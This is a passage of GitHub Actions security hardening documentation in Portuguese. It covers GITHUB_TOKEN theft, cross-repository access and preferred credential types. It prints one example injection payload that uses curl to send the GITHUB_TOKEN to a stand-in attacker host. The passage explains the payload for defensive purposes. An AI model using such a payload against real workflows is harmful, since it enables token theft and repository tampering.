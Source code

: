### Roubar o trabalho do `GITHUB_TOKEN`

É possível para um invasor roubar o `GITHUB_TOKEN` de um trabalho. O executor de {% data variables.product.prodname_actions %} recebe automaticamente um `GITHUB_TOKEN` gerado com permissões limitadas apenas ao repositório que contém o fluxo de trabalho, e o token expira após a conclusão do trabalho. Uma vez expirado, o token não é mais útil para um invasor. Para contornar essa limitação, eles podem automatizar o ataque e executá-lo em frações de segundo chamando um servidor controlado pelo invasor com o token, por exemplo: `a"; set +e; curl http://example.lab?token=$GITHUB_TOKEN;#`.

### Modificando os conteúdos de um repositório

O servidor invasor pode usar A API de {% ifversion fpt or ghec %}{% data variables.product.prodname_dotcom %}{% else %}{% data variables.product.product_name %}{% endif %} para [modificar o conteúdo do repositório](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token), incluindo versões, se as permissões atribuídas de `GITHUB_TOKEN` [não forem restritas](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token).

## Considerar acesso entre repositórios

O {% data variables.product.prodname_actions %} tem um escopo intencional para um único repositório por vez. O `GITHUB_TOKEN` concede o mesmo nível de acesso que um usuário com acesso de gravação, porque qualquer usuário com acesso de gravação pode acessar esse token criando ou modificando um arquivo de fluxo de trabalho{% ifversion fpt or ghes > 3.1 or ghae or ghec %}, elevando as permissões do `GITHUB_TOKEN` se necessário{% endif %}. Usuários têm permissões específicas para cada repositório. Portanto, permitir que o `GITHUB_TOKEN` de um repositório conceda acesso a outro teria impacto no modelo de permissão de {% data variables.product.prodname_dotcom %} se não fosse implementado cuidadosamente. Da mesma forma, deve-se ter cuidado ao adicionar tokens de autenticação de {% data variables.product.prodname_dotcom %} a um fluxo de trabalho, porque isto também pode afetar o modelo de permissão de {% data variables.product.prodname_dotcom %} concedendo inadvertidamente amplo acesso aos colaboradores.

Temos [ um plano no roteiro de {% data variables.product.prodname_dotcom %}](https://github.com/github/roadmap/issues/74) para suportar um fluxo que permite o acesso de todos os repositórios em {% data variables.product.product_name %}, embora ainda não seja um recurso compatível. Atualmente, a única maneira de executar interações privilegiadas entre repositórios é colocar um token de autenticação do {% data variables.product.prodname_dotcom %} ou chave SSH como um segredo dentro do fluxo de trabalho. Uma vez que muitos tipos de token de autenticação não permitem acesso granular a recursos específicos, há um risco significativo no uso do tipo incorreto de token, pois ele pode conceder acesso muito mais amplo do que o pretendido.

Esta lista descreve as abordagens recomendadas para acessar os dados do repositório dentro de um fluxo de trabalho, em ordem decrescente de preferência:

1. **O `GITHUB_TOKEN`**
    -  Este token recebe intencionalmente o escopo para o único repositório que invocou o fluxo de trabalho, e {% ifversion fpt or ghes > 3.1 or ghae or ghec %}pode ter {% else %}tem {% endif %}o mesmo nível de acesso que um usuário de acesso de gravação no repositório. O token é criado antes de cada trabalho começar e expira quando o trabalho é finalizado. Para obter mais informações, consulte "[Autenticação com o GITHUB_TOKEN](/actions/configuring-and-managing-workflows/authenticating-with-the-github_token)".
    - O `GITHUB_TOKEN` deve ser usado sempre que possível.
2. **Chave de implantação do repositório**
    - Chaves de implantação são um dos únicos tipos de credenciais que concedem acesso de leitura ou gravação a um único repositório, e podem ser usadas para interagir com outro repositório dentro de um fluxo de trabalho. Para obter mais informações, consulte "[Gerenciar chaves de implantação](/developers/overview/managing-deploy-keys#deploy-keys)".
    - Observe que as chaves de implantação só podem clonar e fazer push para o repositório usando o Git, e não podem ser usada para interagir com a API REST ou o GraphQL. Portanto, elas podem não ser apropriadas para os suas necessidades.
3. **Tokens de {% data variables.product.prodname_github_app %}**
    - {% data variables.product.prodname_github_apps %} podem ser instalados em repositórios selecionados e até mesmo ter permissões granulares nos recursos dentro deles. É possível criar um {% data variables.product.prodname_github_app %} interno na sua organização, instalá-lo nos repositórios os quais você precisa acessar dentro do seu fluxo de trabalho, e autenticar como instalação dentro de seu fluxo de trabalho para acessar esses repositórios.
